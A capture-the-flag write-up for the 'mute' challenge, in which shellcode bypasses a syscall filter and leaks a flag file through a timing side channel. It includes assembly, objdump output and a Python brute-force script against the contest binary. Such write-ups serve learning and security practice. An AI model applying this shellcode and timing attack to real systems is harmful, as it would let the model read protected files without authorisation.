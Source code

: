 # Writeup
The challenge gives the mute executable and that's all.
Doing a reverse engineer with IDA, we can note two things:

1- There is a function dropSyscalls with drop every syscalls, except 0x0, 0x2, 0x3, 0x4, 0x5, 0x6, 0x7, 0x8, 0x9, 0xa, 0xb, 0xc and 0x3b.
This means that the syscall 0x1 (write) is forbiden and we cannot write to stdout.

![mute2](https://cloud.githubusercontent.com/assets/1280700/25589772/45f41628-2e84-11e7-98f7-7d6f808be792.png)

2- The executable just reads some bytes from stdin (lines 15-20) and executes it (line 21).

![mute1](https://cloud.githubusercontent.com/assets/1280700/25589768/42ff307e-2e84-11e7-81ac-f932461b2bd7.png)

After noticing that, the first thing that came to my mind was to send a shellcode which reads the flag (I assumed it was
in /home/mute/flag) and does a time-based blind attack. The code tries to guess a character position of the flag. If it
is correct, them takes some time (looping) before exiting. If it is incorrect, it just exits imediately. Actually, the exit
syscall is forbidden, but it does not metter for us because we are only interested in the timing.

```assembly
section .text
    global _start

_start:
;/home/mute/flag
mov r8, 0x67616c662f6574
push r8
mov r8, 0x756d2f656d6f682f
push r8

; syscall open file
mov rdi, rsp ; pop path value
xor rax, rax
add al, 2
xor rsi, rsi ; set O_RDONLY flag
syscall
  
; syscall read file
sub sp, 0xfff
lea rsi, [rsp]
mov rdi, rax
xor rdx, rdx
mov dx, 0xfff; size to read
xor rax, rax
syscall
  
cmp byte [rsi + 1], 0x69
jne exit

;guessed correct? sleep
mov ecx,0
loop1:

inc ecx
cmp ecx, 0xffffffff
jne loop1

mov ecx,0
loop2:

inc ecx
cmp ecx, 0xffffffff
jne loop2

; syscall exit
exit:
xor rax, rax
add al, 60
syscall
```

And the objdump:

```
$ nasm -f elf64 shell.asm ; ld -o shell shell.o; objdump -d shell

shell:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 <_start>:
  400080:	49 b8 74 65 2f 66 6c 	movabs $0x67616c662f6574,%r8
  400087:	61 67 00 
  40008a:	41 50                	push   %r8
  40008c:	49 b8 2f 68 6f 6d 65 	movabs $0x756d2f656d6f682f,%r8
  400093:	2f 6d 75 
  400096:	41 50                	push   %r8
  400098:	48 89 e7             	mov    %rsp,%rdi
  40009b:	48 31 c0             	xor    %rax,%rax
  40009e:	04 02                	add    $0x2,%al
  4000a0:	48 31 f6             	xor    %rsi,%rsi
  4000a3:	0f 05                	syscall 
  4000a5:	66 81 ec ff 0f       	sub    $0xfff,%sp
  4000aa:	48 8d 34 24          	lea    (%rsp),%rsi
  4000ae:	48 89 c7             	mov    %rax,%rdi
  4000b1:	48 31 d2             	xor    %rdx,%rdx
  4000b4:	66 ba ff 0f          	mov    $0xfff,%dx
  4000b8:	48 31 c0             	xor    %rax,%rax
  4000bb:	0f 05                	syscall 
  4000bd:	80 7e 01 69          	cmpb   $0x69,0x1(%rsi)
  4000c1:	75 18                	jne    4000db <exit>
  4000c3:	b9 00 00 00 00       	mov    $0x0,%ecx

00000000004000c8 <loop1>:
  4000c8:	ff c1                	inc    %ecx
  4000ca:	83 f9 ff             	cmp    $0xffffffff,%ecx
  4000cd:	75 f9                	jne    4000c8 <loop1>
  4000cf:	b9 00 00 00 00       	mov    $0x0,%ecx

00000000004000d4 <loop2>:
  4000d4:	ff c1                	inc    %ecx
  4000d6:	83 f9 ff             	cmp    $0xffffffff,%ecx
  4000d9:	75 f9                	jne    4000d4 <loop2>

00000000004000db <exit>:
  4000db:	48 31 c0             	xor    %rax,%rax
  4000de:	04 3c                	add    $0x3c,%al
  4000e0:	0f 05                	syscall
```

Taking the bytes of this shellcode, I made a python script to do this blind attack. The script sends the same bytes of 
the shellcode above, but replacing the corresponding guessing position and character (*cmp byte [rsi + 1], 0x69*).

```python
from pwn import *
import string
from datetime import datetime
import os

context.log_level = 'error'

shell = "\\x49\\xb8\\x74\\x65\\x2f\\x66\\x6c\\x61\\x67\\x00\\x41\\x50\\x49\\xb8\\x2f\\x68\\x6f\\x6d\\x65\\x2f\\x6d\\x75\\x41\\x50\\x48\\x89\\xe7\\x48\\x31\\xc0\\x04\\x02\\x48\\x31\\xf6\\x0f\\x05\\x66\\x81\\xec\\xff\\x0f\\x48\\x8d\\x34\\x24\\x48\\x89\\xc7\\x48\\x31\\xd2\\x66\\xba\\xff\\x0f\\x48\\x31\\xc0\\x0f\\x05\\x80\\x7e\\x01\\x68\\x75\\x18\\xb9\\x00\\x00\\x00\\x00\\xff\\xc1\\x83\\xf9\\xff\\x75\\xf9\\xb9\\x00\\x00\\x00\\x00\\xff\\xc1\\x83\\xf9\\xff\\x75\\xf9\\x48\\x31\\xc0\\x04\\x3c\\x0f\\x05"

flag = ""
i = 1

while True:
    for c in string.printable:
        try:
            current_shell = shell.replace("\\x01\\x68", "\\x" + chr(i).encode("hex") + "\\x" + c.encode("hex"))
            start = datetime.now()
            os.popen("python -c 'print(\"" + current_shell + "\" + \"\\x00\"*4009)' | ./mute") # nc mute_9c1e11b344369be9b6ae0caeec20feb8.quals.shallweplayaga.me 443
            total = (datetime.now() - start).seconds
            if total >= 2:
                i += 1
                flag += c
                print("FOUND!!!!!")
                print(flag)
        except:
            pass
```

Locally it worked fine! Now it was time to try remotely. However, it was missing just about 10 minutes for the end of the competition.
Although I did not submit the flag in time, I consider that I solved this challenge. I took a look at this challenge just 2 
hours before the end of the competition and when I was with about half of the flag, the time went over and the server came 
down :(
**The flag is: I tXXXXXXXXXat I'd do was, I'd pXXXXXX**

where **X** are the missing characters. It may have some wrong characters because of wrong estimation of time, but nothing that a double check could not solve.

